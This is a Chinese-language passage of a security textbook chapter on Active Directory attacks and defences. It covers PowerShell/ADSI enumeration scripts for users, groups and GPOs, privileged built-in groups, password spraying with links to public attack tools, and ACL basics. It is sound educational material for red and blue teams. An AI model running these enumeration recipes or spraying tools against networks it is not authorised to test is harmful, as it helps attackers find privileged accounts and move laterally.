









# 第六章：活动目录 - 攻击与缓解

当我们谈论 PowerShell 安全时，一个重要因素是理解身份的重要性。在组织遭受攻击时，被盗取和滥用的不是 PowerShell，而是身份，用于组织内部的横向移动，以窃取更多身份并尽可能找到更多身份。

对手的目标是找到特权身份，例如域管理员或共享本地管理员凭据，以控制整个环境。

而且，如果我们谈论身份，其中最重要的资产之一就是活动目录，这是由微软开发的目录服务，用于提供身份验证和管理设备配置。在大多数组织中，它是核心，所有身份都被保留和管理在这里。

因此，每当我们验证用户，远程连接或完全使用 PowerShell 时，大多数情况下都涉及公司活动目录中的用户帐户。

在我看来，每个对 PowerShell 安全感兴趣的安全专业人员也应该对身份验证，身份以及最重要的活动目录有一些扎实的知识。这就是我们将在本章中探讨的内容。我们将讨论许多理论内容，但也调查红队和蓝队如何使用 PowerShell。

当然，涉及活动目录安全时还有很多内容 - 您可以仅使用活动目录安全内容编写一本完整的书。在本章中，我们将讨论有关 PowerShell 安全最重要的内容，包括以下主题：

+   从安全角度介绍活动目录

+   枚举和滥用用户帐户

+   特权帐户和组

+   访问权限和枚举 ACL

+   身份验证协议（局域网管理器，NTLM 和 Kerberos）

+   攻击活动目录身份验证

+   凭证窃取和横向移动

+   微软基线和安全合规工具包

# 技术要求

要充分利用本章内容，请确保您具备以下条件：

+   PowerShell 7.3 及以上

+   已安装 Visual Studio Code

+   访问**第六章**的 GitHub 存储库：

[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/tree/master/Chapter06`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/tree/master/Chapter06)

# 从安全角度介绍活动目录

**活动目录**（**AD**）是一个目录服务，您可以用来管理基于 Windows 的网络。AD 于 2000 年发布，迅速成为企业身份管理的标准。

使用 AD，您可以使用域和组织单位来安排计算机，服务器和连接的网络设备。您可以在层次结构中对其进行结构化，并在企业林中使用域来逻辑上将不同的子区域彼此分开。

**域**或**企业管理员**角色是域或林中最强大的角色。虽然**域管理员**对其管理的域拥有完全控制权，但**企业管理员**对林中所有域以及一些额外的林级属性都有完全控制权。因此，应非常明智和小心地分配这些角色。

大多数权限也可以委派给细分角色以确定谁可以做什么，因此，账户不一定需要分配域管理员角色以获得类似的权限。

如果您不定期审计委派的权限，很难了解谁被允许做什么。因此，在我生活中看到的许多环境中，当涉及分配权限时往往混乱不堪。这自然也使攻击者更容易通过滥用看似不起眼的账户来完成任务。

因此，如果您正在管理您的 AD，不仅要控制权限，还要保护 AD 本身。

AD 是组织中使用的大多数设备和账户的大集合。它不仅帮助攻击者枚举环境，还使用一个大数据库来保存所有账户的密码哈希：**ntds.dit**。

因此，不仅需要保护好特权账户，还需要保护好特权工作站（如**安全管理员工作站**）和用于管理 AD 的服务器。

一旦对手进入环境（例如通过钓鱼攻击），他们就开始枚举环境以寻找有价值的目标。

# 攻击如何在企业环境中起作用

企业环境中的攻击通常都遵循相同的模式。

要访问企业环境，攻击者通常会发送钓鱼电子邮件或找到外部面向服务器的漏洞。如果公司遵循了保护其环境的最佳实践（例如将其 Web 服务器放置在**非军事区**（**DMZ**）中，使用**Web 应用程序防火墙**（**WAF**），并遵循安全编码的最佳实践），后者并不容易。

如果您对 WAF 不熟悉，它是一种专门设计用于保护 Web 应用程序的防火墙类型。它监视和过滤 Web 应用程序与互联网之间的流量，检测并阻止诸如 SQL 注入和**跨站脚本**（**XSS**）攻击等攻击。通过使用 WAF，公司可以显著降低攻击者利用其 Web 应用程序漏洞的风险。

因此，最简单和最脆弱的环节是用户。攻击者向用户发送钓鱼电子邮件（**步骤 1**），其中包含恶意文档或指向恶意网页的链接。

如果用户打开电子邮件并允许恶意软件在其设备上执行（**第 2 步**），则恶意软件被执行，并且 - 根据恶意软件的开发方式 - 它开始停用常见的防御措施，如**Antimalware Scan Interface**（**AMSI**）和**Antivirus**（**AV**）服务。通常，它会尝试窃取设备上可用的所有凭证。我们稍后将在本章节中查看在*凭证窃取*部分中有哪些凭证 - 现在，只需想象凭证就像是一把钥匙卡；用户可以使用它们访问只有他们被允许访问的资源。



图 6.1 – 凭证窃取和横向移动

现在攻击者已经可以访问环境中的一台计算机，攻击者尝试在该计算机上建立持久性（例如，配置定时任务或创建自动启动项目）。然后，枚举开始以查找更多设备和有价值的身份。

对于攻击者来说，AD 是目标：在这个身份数据库中，对手可以窃取整个环境的所有身份和凭证。如果对手只是妥协了普通用户，他们还不能访问 AD 服务器以提取更多身份，因此他们需要通过窃取更多身份和妥协更多系统来找到最短路径。

有一些工具，例如**BloodHound**，可以自动化枚举阶段，以便在几秒钟内揭示通往 AD 管理员的最短路径。

接下来，更多计算机和服务器被入侵，并且攻击者进行横向移动，使用窃取的凭证（**第 3 步**）。

在目标计算机上，再次执行相同的步骤：禁用检测，建立持久性并提取当前的凭证。

此步骤重复进行，直到找到并提取有价值的高特权凭证（最好是域或企业管理员凭证）（**第 4 步**）。

带有这些高特权凭证，对手现在可以访问域控制器和 AD 数据库（**第 5 步**）并建立持久性。根据对手的目标，他们现在可以执行他们的计划 - 例如，发动勒索软件攻击来加密整个环境或者保持不被发现并持续提取信息。

# ADSI、ADSI 加速器、LDAP 和 System.DirectoryServices 命名空间

在我们深入讨论枚举和 AD 攻击之前，让我们首先看一些您可以用来访问和操作诸如 AD 之类的目录服务的最重要工具。

其中一个工具被称为**Active Directory Service Interfaces**（**ADSI**），这是用于访问诸如 AD 之类的目录服务的基于**COM**（组件对象模型）的接口。

在使用 ADSI 时，开发人员可以使用 **轻量级目录访问协议**（**LDAP**）过滤器来定义目录查询的搜索条件。LDAP 过滤器允许开发人员构建复杂的查询，这些查询可以根据多种条件（包括属性值、对象类等）返回特定的目录数据集。

要获取所有用户账户，LDAP 过滤器查询将是 **(sAMAccountType=805306368)**。

如果你将**useraccountcontrol**属性与“密码永不过期”选项设置的所有常规账户结合使用，LDAP 过滤器将如下所示：**(&(sAMAccountType=805306368)(useraccountcontrol=66048))**。

你可以参考这篇文章，获得有关 LDAP 过滤器的有用概述：[`social.technet.microsoft.com/wiki/contents/articles/5392.active-directory-ldap-syntax-filters.aspx`](https://social.technet.microsoft.com/wiki/contents/articles/5392.active-directory-ldap-syntax-filters.aspx)。

ADSI 是访问 AD 中公开的分层命名空间的接口，类似于文件系统，表示目录中的对象，如用户、组和计算机及其属性。ADSI 可以通过多种编程语言（包括 C++、VBScript 和 PowerShell）使用，用于访问和操作目录服务。

**System.DirectoryServices** 命名空间是 .NET 框架的一部分，提供与目录服务（包括 AD）交互的类和方法。它是建立在 ADSI 之上的。**System.DirectoryServices** 包含用于搜索、修改和检索目录服务中的信息的类，以及用于管理安全性和身份验证的类。

使用 **System.DirectoryServices** 命名空间时，实际上是在底层使用 ADSI 技术。然而，你是通过一组更高层次的类和方法与 ADSI 进行交互，这些类和方法提供了一个更直观、更易用的接口，用于与目录服务进行交互。

通过使用 **DirectoryServices**，你可以轻松构建自己的函数，如下所示的示例：

```
$searcher = New-Object System.DirectoryServices.DirectorySearcher
$searcher.Filter = "(&(sAMAccountType=805306368)(givenName=Miriam))"
$searcher.FindAll() | ForEach-Object {
    Write-Output "Name: $($_.Properties['cn'])"
    Write-Output "Username: $($_.Properties['sAMAccountName'])"
    Write-Output "Email: $($_.Properties['mail'])"
    Write-Output ""
}
```

在这个示例中，我们首先创建一个新的 **System.DirectoryServices.DirectorySearcher** 类实例，该类用于搜索与 AD 中特定条件匹配的目录条目。

**Filter** 属性设置为一个字符串，使用 LDAP 语法定义搜索条件。在此情况下，过滤器指定搜索应返回所有具有给定名称**Miriam**的用户对象。最后，调用 **FindAll()** 方法执行搜索，并将结果传递给 **ForEach-Object** 循环，以显示找到的每个用户的信息。

在 PowerShell 中，**System.DirectoryServices** 命名空间可以通过创建表示目录条目的对象，并使用 **DirectorySearcher** 对象来查询 AD，查找符合特定条件的条目。

后来，微软推出了 ADSI 加速器，这些加速器为访问特定目录数据类型提供了简化的语法。这些类型加速器允许你使用简化语法；例如，**[adsi]** 类型加速器表示 **System.DirectoryServices.DirectoryEntry** 类，而 **[adsisearcher]** 则表示 **System.DirectoryServices.DirectorySearcher** 类。

例如，以下 PowerShell 代码直接使用 **System.DirectoryServices** 类：

```
$DistinguishedName = "LDAP://OU=PSSec Computers,DC=PSSec,DC=local"
([System.DirectoryServices.DirectoryEntry]$DistinguishedName).Children
```

这相当于以下使用 **[****adsi]** 加速器的代码：

```
$DistinguishedName = "LDAP://OU=PSSec Computers,DC=PSSec,DC=local"
([adsi]$DistinguishedName).Children
```

如果我们将之前的代码示例重写，以查找所有名字为 **Miriam** 的用户，并使用 **[adsisearcher]** 加速器代替 **DirectoryServices**，那么代码将如下所示：

```
([adsisearcher]"(&(sAMAccountType=805306368)(givenName=Miriam))").FindAll() | ForEach-Object {
    Write-Output "Name: $($_.Properties['cn'])"
    Write-Output "Username: $($_.Properties['sAMAccountName'])"
    Write-Output "Email: $($_.Properties['mail'])"
    Write-Output ""
}
```

通过使用 ADSI、ADSI 加速器、LDAP 过滤器和 **System.DirectoryServices** 类，你可以轻松地创建自己的自定义函数来处理 AD。这些函数可以用来操作现有条目，也可以用于从 AD 查询信息，这在进行枚举时非常有用。

# 枚举

正如我们在本章中早些时候所学到的，枚举通常是获取环境更多细节的第一步（并根据对手可以访问的内容反复进行）。枚举有助于找出可用的资源以及哪些访问权限可能被滥用。

当然，枚举不仅对红队人员有帮助，对于蓝队人员定期审计权限也同样重要。在攻击者发现之前，最好能先看到自己环境中可以枚举的内容并进行修复或调整。

在 AD 中，所有能够访问公司网络的用户都可以枚举所有用户账户，以及（高权限的）组成员身份。在 **Azure Active Directory** (**AAD**) 中，所有通过互联网访问 Office 365 服务的用户都可以枚举其租户中的 AAD 用户账户和组成员身份。

让我们从本章开始研究 AD 中的枚举。请参阅下一章以了解 AAD 中枚举的工作原理。

在 AD 中，特别感兴趣的是 *哪些用户* 被映射到 *哪些组*，以及 *谁被允许做什么*。驻留在 *特权组* 中的账户是特别有价值的攻击目标。

了解域中 *有哪些用户和计算机* 也非常有用，可以帮助规划后续步骤，并找出哪些账户拥有哪些 **访问控制列表** (**ACLs**) 和哪些 **组织单位** (**OU**)。

用户权限枚举也非常有用，不仅在域级别，而且在单一系统中也同样适用。

**组策略对象** (**GPOs**) 可用于管理域中的计算机和用户。因此，如果一个保护不严的账户具有管理 GPO 的权限，这可能会被滥用来劫持受影响的机器和账户。

最后，如果环境中有多个信任关系，了解这些信任关系会非常有价值，因为它们为攻击者打开了新的攻击向量。

有一些模块可供使用，比如**PowerView**，这是 Will Schroeder 编写的，属于**PowerSploit**的一部分，能够帮助你进行枚举。请注意，PowerSploit 仓库已经不再支持，并且未来不会继续开发。

还有一些很棒的工具，如**BloodHound**，由 Andy Robbins、Rohan Vazarkar 和 Will Schroeder 编写，帮助你找到通向域管理员账户的最短路径（通常通过横向移动和凭证盗窃）。

但是，通过利用 AD 模块中可用的基本 cmdlet，也可以枚举用户、组、ACL、信任关系等信息。

我编写了一些脚本，供红队和蓝队用于枚举。这些脚本可以从本书的 GitHub 仓库下载：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/tree/master/Chapter06`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/tree/master/Chapter06)。

但让我们来看一下对手用来枚举用户、组和有价值攻击目标的不同方式。请注意，这不是一个完整的列表，因为我们主要关注的是身份和横向移动。

## 枚举用户账户

每次攻击通常从一个被破坏的用户账户开始。一旦对手在机器上建立了立足点，就会利用它进一步了解环境，通常还会窃取更多身份信息并进行横向移动。

通常情况下（至少我希望并建议如此），被攻破的用户没有管理员权限，因此对手需要提升权限。这可以通过利用本地执行的软件漏洞来完成。但往后看，了解哪些账户和/或组具有哪些权限，不仅是在本地机器上，甚至可能是在其他机器上，也是非常有趣的。

因此，蓝队成员定期审计用户权限非常重要——不仅是在用户机器上，而且还包括在服务器上配置的权限。

了解 AD 中存在哪些用户账户，对攻击者来说可能非常有价值。这些信息不仅可以用来将账户映射到组和配置的用户权限，还可以在攻击者知道存在哪些账户后发起密码喷射攻击。

通过使用**Get-ADUser** cmdlet，它是**ActiveDirectory**模块的一部分，你可以获取 AD 中所有存在的用户账户：

```
> Get-ADUser -Filter *
```

**ActiveDirectory** 模块是**远程服务器管理工具**（**RSAT**）的一部分，可以单独安装：[`docs.microsoft.com/en-us/powershell/module/activedirectory`](https://docs.microsoft.com/en-us/powershell/module/activedirectory)。

该模块预安装在所有**域控制器**上。通常，管理员也会安装此模块以进行远程管理。

尽管可以使用诸如 PowerView 或标准 AD cmdlet 等工具检索 AD 中的所有用户帐户，但需要注意 PowerView 不再受支持，并且目标系统上可能并不总是存在**ActiveDirectory**模块。因此，了解可以用于枚举的其他工具是很有必要的。

其中一种替代方法是使用带有过滤器的**[adsisearcher]**加速器，例如**（sAMAccountType=805306368）**。这允许在 AD 中搜索而不依赖外部工具或模块，如以下示例所示：

```
$domain = Get-WmiObject -Namespace root\cimv2 -Class Win32_ComputerSystem | Select-Object -ExpandProperty domain
$filter = "(sAMAccountType=805306368)"
$searcher = [adsisearcher]"(&(objectCategory=User)$filter)"
$searcher.SearchRoot = "LDAP://$domain"
$searcher.FindAll() | ForEach-Object {$_.GetDirectoryEntry().Name}
```

使用此代码片段，我们将检索指定域中所有用户帐户的列表。通过熟悉 AD 搜索的不同方法，您可以增加在各种环境中成功的机会。

**sAMAccountType**属性是一个整数值，指定在 AD 中正在创建的对象类型。以下是您可以用于枚举的常见**sAMAccountType**属性的概述：

+   **805306368**: 普通用户帐户

+   **805306369**: 计算机帐户

+   **805306370**: 安全组

+   **805306371**: 分发组

+   **805306372**: 具有域本地范围的安全组

+   **805306373**: 具有域本地范围的分发组

+   **805306374**: 具有全局范围的安全组

+   **805306375**: 具有全局范围的分发组

+   **805306376**: 具有全局范围的安全组

+   **805306377**: 具有全局范围的分发组

实际上，所有经过身份验证的用户都可以读取所有用户、组、OU 和其他对象，这使得枚举对于对手来说是一项容易的任务。

要演示如何使用 RSAT 工具进行枚举和不使用 RSAT 工具进行枚举的情况，我编写了**Get-UsersAndGroups.ps1**和**Get-UsersAndGroupsWithAdsi.ps1**脚本，您可以在本书的 GitHub 存储库中找到：

+   [`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter06/Get-UsersAndGroups.ps1`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter06/Get-UsersAndGroups.ps1)

+   [`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter06/Get-UsersAndGroupsWithAdsi.ps1`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter06/Get-UsersAndGroupsWithAdsi.ps1)

# 枚举 GPO

要枚举当前环境中链接的 GPO，您可以使用 ADSI 加速器：

通过使用**[adsi]**加速器，您可以提供**DistinguishedName**路径以显示**gplink**属性，该属性将显示链接到该特定路径的 GPO。要查询链接到**PSSecComputers** OU（**OU=PSSecComputers,DC=PSSec,DC=local**）的 GPO，我们可以使用以下代码片段来查询：

```
$DistinguishedName = "LDAP://OU=PSSecComputers,DC=PSSec,DC=local"
$obj = [adsi]$DistinguishedName
$obj.gplink
```

以下截图显示了此查询的结果：


图 6.2 – 使用 ADSI 加速器查询 GPO

你还可以使用**[adsisearcher]**过滤与环境相关联的 GPO，如下所示：

```
$GpoFilter = "(objectCategory=groupPolicyContainer)"
$Searcher = [adsisearcher]$GpoFilter
$Searcher.SearchRoot = [adsi]"LDAP://DC=PSSec,DC=local"
$Searcher.FindAll() | ForEach-Object {
    Write-Host "GPO Name:" $_.Properties.displayname
    Write-Host "GPO Path:" $_.Properties.adspath
}
```

该域内所有可用的 GPO 将被返回，如下图所示：



图 6.3 – 使用 adsisearcher 加速器枚举 GPO

如果可用，亦可使用**ActiveDirectory**模块查询与你的环境相关联的 GPO。以下代码片段展示了如何实现这一点：

```
$GpoList = Get-GPO -All -domain "PSSec.local"
$GpoList | ForEach-Object {
    Write-Host "GPO Name:" $_.DisplayName
    Write-Host "GPO Path:" $_.Path
}
```

除了枚举 GPO，枚举组也是一个重要部分，我们将在下一节中重点讨论。

# 枚举组

了解哪些用户帐户属于哪个组对于攻击者来说是非常宝贵的信息。通过这些信息，他们可以快速了解某些帐户是否可能访问其他计算机。

但这也是蓝队员应定期进行的任务；通常，系统和访问权限并未得到足够加固，因此了解哪些用户属于哪个 AD 组并进行调整非常有价值。

从长远来看，实施监控也很有意义，这样如果某个 AD 组的成员发生了意外变化，你可以立即收到警报。

为了开始枚举你的 AD 组，我为你写了一个简单的脚本，显示组以及它们的成员：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter06/Get-UsersAndGroups.ps1`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter06/Get-UsersAndGroups.ps1)。

下载脚本后，你可以直接使用它并将输出进一步处理为 PowerShell 对象，或者可以将其通过管道传递给**Export-Csv**函数，这样可能会更方便进行分析：

```
> .\Get-UsersAndGroups.ps1 | Export-Csv -Path C:\tmp\ADGroups.csv
```

输出被导出为**.csv**文件，路径为**C:\tmp\ADGroups.csv**。现在，你可以根据需要处理该文件。

一个选择是将其作为外部数据导入 Excel，并创建一个数据透视表，以更好地理解你的组成员关系。

由于 Excel 和 Power Pivot 不在本书的范围内，我不会解释如何操作，但有许多优秀的资源可以帮助你深入了解这些技术，包括以下内容：

+   导入或导出文本（**.txt** 或 **.csv**）文件：[`support.microsoft.com/en-us/office/import-or-export-text-txt-or-csv-files-5250ac4c-663c-47ce-937b-339e391393ba`](https://support.microsoft.com/en-us/office/import-or-export-text-txt-or-csv-files-5250ac4c-663c-47ce-937b-339e391393ba)

+   *教程：将数据导入 Excel 并创建数据* *模型*：[`support.microsoft.com/en-us/office/tutorial-import-data-into-excel-and-create-a-data-model-4b4e5ab4-60ee-465e-8195-09ebba060bf0`](https://support.microsoft.com/en-us/office/tutorial-import-data-into-excel-and-create-a-data-model-4b4e5ab4-60ee-465e-8195-09ebba060bf0)

+   *创建数据透视表以分析工作表* *数据*：[`support.microsoft.com/en-gb/office/create-a-pivottable-to-analyze-worksheet-data-a9a84538-bfe9-40a9-a8e9-f99134456576`](https://support.microsoft.com/en-gb/office/create-a-pivottable-to-analyze-worksheet-data-a9a84538-bfe9-40a9-a8e9-f99134456576)

我创建了一些从我的**PSSec**演示实验室导出的示例文件，你可以在本书的 GitHub 仓库中找到它们：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/tree/master/Chapter06/EnumeratingGroups`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/tree/master/Chapter06/EnumeratingGroups)。

这些示例仅是如何导入**.csv**文件并创建 PowerPivot 表格以进一步分析环境中 AD 组成员身份的建议。

# 特权账户和组

特权账户是指那些比*普通*账户拥有更多权限和特权的账户，因此需要特别注意其安全性。

在 AD 中也存在一些内建特权账户，例如**管理员账户**、**访客账户**、**HelpAssistant 账户**和**krbtgt 账户**（负责 Kerberos 操作）。

如果你想阅读更多关于 AD 内建账户的内容，请参考官方文档：[`learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-default-user-accounts`](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-default-user-accounts)。

## AD 中的内建特权组

在 AD 中，有一些预定义的角色，例如**企业管理员**或**域管理员**角色，但这些并不是唯一的。

这些预定义角色位于你的域的**Builtin**容器中。要查询它，你可以使用**Get-ADGroup** cmdlet 并指定域特定的**Builtin**容器的**Distinguished Name**（**DN**）作为**-Searchbase**；使用这个参数，你可以定义执行命令的单位。

所以，如果我想在**Builtin**容器中搜索我的**PSSec.local**域，我会指定**CN=Builtin,DC=PSSec,DC=local**作为**-Searchbase**：

**Get-ADGroup -SearchBase 'CN=Builtin,DC=PSSec,DC=local' -Filter * |** **Format-Table Name,GroupScope,GroupCategory,SID**

因为我想找到所有内建账户，所以我指定了一个**通配符**（*****）作为**-Filter**。将命令通过管道传递给**Format-Table**，可以让你定义在格式化表格中要查看哪些数据，下面的截图展示了一个示例：



图 6.4 – 显示所有现有的 AD 组

该命令查找**内置**容器中的所有内置账户，并将输出格式化为表格。然而，如果您没有**ActiveDirectory**模块，您可以使用带有 LDAP 过滤器的**[adsisearcher]**来完成相同的任务。以下命令将搜索所有带有**objectClass=group**过滤器的组：

```
> ([adsisearcher]"(&(objectClass=group)(cn=*))").FindAll()
```

尽管这些预定义组无法移出**内置**容器，但可以在其中创建其他账户。

因此，您可能需要微调您的命令，只搜索**内置**容器中具有众所周知的**安全标识符**（**SID**）的账户。

### 这些内置组是从哪里来的呢？

当这些内置组创建时，微软最初希望为系统管理员简化，以便他们拥有一些预配置的组，可立即用于特定用例。

并且他们确实这样做了！某些组织今天仍在使用这些内置组。那些享受不用复杂查找需要分配给其备份账户的用户特权的公司，可以只需将其账户添加到组中，无需进一步配置。

不过，对手也已经发现了这些组，用于他们自己的目的：这些公开文档的组在世界各地的每个环境中都具有太多特权和相同的众所周知 SID —— 这听起来不是很惊人吗？

这意味着更容易攻击这些内置组：如果对手已经可以硬编码这些公开文档的内置组的众所周知 SID，那么就不需要发现可用的组了。

因此，最初善意的用意，也可以被用来反对最初的目的。不幸的是，太多公司已经开始在其生产环境中使用这些组，因此没有默认删除这些内置组以向下兼容的选项。

然而，从安全角度来看，我建议不再使用所有这些内置组：相反，创建您自己的组（该组没有众所周知的 SID），并且仅授予所需的特权。

以下是合理的内置组，仍然可以和应该使用：

+   **企业管理员**

一个众所周知的 SID 是 **S-1-5-21<根域>-519**。

此组成员可以进行跨森林更改。这是森林中权限最高的组。

+   **域管理员**

一个众所周知的 SID 是 **S-1-5-21<域>-512**。

此组成员可以管理域。在企业管理员组之后，这是域中权限最高的组。

+   **模式管理员**

一个众所周知的 SID 是 **S-1-5-21<根域>-518**。

模式管理员组成员有权对 AD 模式进行修改。

+   **内置管理员**

一个众所周知的 SID 是 **S-1-5-32-544**。

该组的成员是本地系统的管理员，这意味着他们也是域中所有域控制器的本地管理员。

具有过多权限且不应再使用的内置组如下：

+   **备份操作员**

一个著名的 SID 是**S-1-5-32-551**。

备份操作员具备对计算机上所有文件执行完整备份和恢复的能力，无论文件权限如何。即使他们无法访问受保护的文件，备份操作员仍然可以备份和恢复这些文件。他们还可以登录并关闭他们拥有备份操作员权限的计算机。

+   **账户操作员**

一个著名的 SID 是**S-1-5-32-548**。

账户操作员有权限在所有容器和活动目录（AD）中的组织单位（OU）内创建、修改和删除用户、组和计算机账户，但**Builtin**容器和域控制器 OU 除外。他们不能修改管理员组或域管理员组。

+   **打印操作员**

一个著名的 SID 是**S-1-5-32-550**。

打印操作员组的成员有能力管理打印机和文档队列。

+   **服务器操作员**

一个著名的 SID 是**S-1-5-32-549**。

服务器操作员可以与服务器交互式登录，创建和删除网络共享，启动和停止服务，备份和恢复文件，格式化硬盘，并关闭计算机。谨慎授予域控制器上的服务器操作员角色。

当然，内置组不仅仅是上述这些，按照最小权限原则谨慎分配这些组是有意义的。

如果你想了解更多关于哪个著名的 SID 属于哪个内置组或账户的信息，可以参考官方文档：[`docs.microsoft.com/en-us/troubleshoot/windows-server/identity/security-identifiers-in-windows`](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/security-identifiers-in-windows)。

# 密码喷射

密码喷射类似于暴力破解攻击，并可以帮助攻击者识别并滥用密码弱的账户。密码喷射是一种缓慢且有条理的方法，攻击者会在大量账户上尝试一系列常见的已知密码。相比之下，暴力破解攻击是攻击者对单个账户快速连续地尝试大量潜在密码。

如果使用猜测的密码成功登录，攻击者便可控制指定账户，并利用该账户横向移动，获取更多的凭证或感兴趣的数据。

有许多开源脚本和模块可供攻击者用于密码喷射攻击，包括以下内容：

+   [`github.com/dafthack/domainPasswordSpray`](https://github.com/dafthack/domainPasswordSpray)

+   [`github.com/PowerShellMafia/PowerSploit/tree/master/Recon`](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

## 缓解措施

在本地 AD 中，检测密码喷射攻击是很难的。虽然你可以在 *安全* 事件日志中看到失败的登录事件 **4625**，但如果攻击者足够小心，仍然很难将密码喷射攻击与合法的认证尝试区分开来。许多攻击者也会减慢攻击的频率，以避免账户被锁定，或让环境监控人员不易察觉。

配置密码策略可以帮助强制执行更长且更复杂的密码。一般来说，我建议强制使用更复杂、更长的密码，但避免强制过快的密码更改周期。如果用户每三个月就必须更改一次密码，他们会急于找到一个新的好密码，结果可能会出现像“Spring2023！”或“Summer2023！”这样的密码。

同时，教育你的用户如何使用正确的密码，比如使用密码短语。以下来自流行网站[xkcd.com](http://xkcd.com)（Randall Munroe 创作）的漫画提供了一个关于好密码与坏密码的生动对比（来源：[`xkcd.com/936/`](https://xkcd.com/936/)）：



图 6.5 – 来自 xkcd 的“密码强度” (来源: https://xkcd.com/936/)

AAD 也提供了一些缓解措施来应对密码喷射攻击（尽管这种攻击仍然可能发生）。

# 访问权限

访问控制可以配置为允许一个或多个用户访问特定资源。根据每个访问级别可以执行的操作，配置和维护访问权限的设置是非常敏感的。

此外，在 AD 中，资源是通过访问控制来限制的。在本节中，我们将了解基本概念以及如何审计访问。

## 什么是 SID？

SID 是账户的唯一标识符，也是主要的标识符。它在账户的整个生命周期内都不会改变。这使得在不引发任何访问或安全问题的情况下，可以重命名用户。

每个环境中都有一些知名的 SID，唯一的区别是 SID 开头会加上域 ID。

例如，内置域管理员的知名 SID 按照以下模式：**S-1-5-21-<域>-500**。

最后一组数字表示用户编号：在此案例中，**500** 是一个保留的、知名的 SID。知名 SID 在所有环境中都是相同的，唯一不同的是域部分。普通账户的 SID 用户编号从 **1000** 开始。

如果你有兴趣了解更多关于知名 SID 的信息，可以随时查看官方文档：

+   [`docs.microsoft.com/zh-cn/troubleshoot/windows-server/identity/security-identifiers-in-windows`](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/security-identifiers-in-windows)

+   [`docs.microsoft.com/zh-cn/windows/win32/secauthz/well-known-sids`](https://docs.microsoft.com/en-us/windows/win32/secauthz/well-known-sids)

如果我们查看在我的 **PSSec.local** 演示环境中内建域管理员的 SID，那么它将是以下 SID——其中单独的 *域部分已高亮* *并以斜体显示：*

**S-1-5-21-***3035173261-3546990356-1292108877***-500**

要查找 AD 用户帐户的 SID，可以使用 **Get-ADUser** cmdlet，该 cmdlet 是 **ActiveDirectory** 模块的一部分，如以下截图所示：


图 6.6 – 使用 Get-ADUser 显示 SID

Windows 使用 SID 在访问控制列表中授予或拒绝对特定资源的访问。在这种情况下，SID 用于唯一标识用户或组。

## 访问控制列表

**访问控制列表**（**ACL**）是一个控制对本地 AD 中资源的访问权限的列表。它可以包含各种 **访问控制条目**（**ACE**），每个 ACE 包含关于谁可以访问什么的信息——例如，受托人是否可以访问某个资源，访问是否被拒绝，或者甚至是否需要审计？

可保护对象的安全描述符可以有两种类型的 ACL——**自主访问控制列表**（**DACL**）和 **系统访问控制列表**（**SACL**）：

+   **DACL**：DACL 指定被 ACL 保护的对象上哪些受托人被授予或拒绝访问。

+   **SACL**：SACL 使管理员能够审计并记录何时有人尝试访问受保护的对象。

如果某个对象没有 DACL，则每个用户都可以完全访问该对象。有关 DACL 和 ACE 在 Windows 中如何工作的更多信息，请参见以下链接：[`learn.microsoft.com/en-us/windows/win32/secauthz/dacls-and-aces`](https://learn.microsoft.com/en-us/windows/win32/secauthz/dacls-and-aces)。

### 访问控制条目

一个 ACE 是一个访问条目，包含以下信息，用于指定谁可以访问哪个资源：

+   **受托人**：受托人通过其 SID 指定。

+   **访问掩码**：确定此 ACE 控制的具体访问权限。

+   ACE 类型指示标志。

+   一组位标志，控制从此 ACE 继承的子对象。

有六种类型的 ACE——其中三种类型适用于所有可保护对象，另外三种类型则特定于目录服务对象：

+   **访问拒绝 ACE**：所有可保护对象都支持。可以在 DACL 中使用，以拒绝对由此 ACE 指定的受托人的访问。

+   **访问允许 ACE**：所有可保护对象都支持。可以在 DACL 中使用，以允许对由此 ACE 指定的受托人的访问。

+   **系统审计 ACE**：所有可保护对象都支持。可以在 SACL 中使用，以审计受托人何时使用分配的权限。

+   **访问拒绝对象 ACE**：特定于目录服务对象。可以在 DACL 中使用，以禁止访问对象上的某个属性或属性集，或限制继承。

+   **Access-allowed object ACE**：特定于目录服务对象。可以在 DACL 中使用，用于授予对对象的属性或属性集的访问权限，或者限制继承。

+   **System-audit object ACE**：特定于目录服务对象。可以在 SACL 中使用，用于记录受托方访问对象的属性或属性集的尝试。

还可以使用 PowerShell 的**Get-Acl**和**Set-Acl** cmdlet 来管理 ACL：

+   **Get-Acl**: [`docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-acl`](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/get-acl )

+   **Set-Acl**: [`docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-acl`](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-acl )

例如，要访问用户账户对象的 ACL，可以使用**Get-ACL "AD:$((Get-ADUser testuser).distinguishedname)").access**命令。接下来，让我们探索 OU 的 ACL。

## OU ACLs

OU 是可以对 AD 对象进行分类的单位。根据配置，不同的账户或组可以拥有对某个 OU 的管理权限，并且可以对它们应用不同的 GPO。

如果 OU 访问权限配置错误，这为攻击者提供了许多可能性。AD 环境中的一个常见攻击向量是通过修改 OU 权限。

### 修改 OU 权限

通过修改 OU 的权限，攻击者可以控制其中的对象，包括用户和计算机账户，并可能在域内提升权限。

